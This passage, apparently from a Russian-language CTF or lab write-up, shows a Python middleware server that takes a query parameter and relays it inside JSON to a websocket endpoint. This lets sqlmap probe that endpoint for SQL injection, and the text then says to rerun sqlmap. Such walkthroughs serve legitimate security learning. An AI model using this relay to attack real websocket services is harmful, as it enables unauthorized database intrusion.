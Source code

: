 ```
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	message = unquote(payload).replace("'",'\\\"')	
	data = '{"version":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/version?version=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

Запустим скрипт и снова воспользуемся sqlmap:
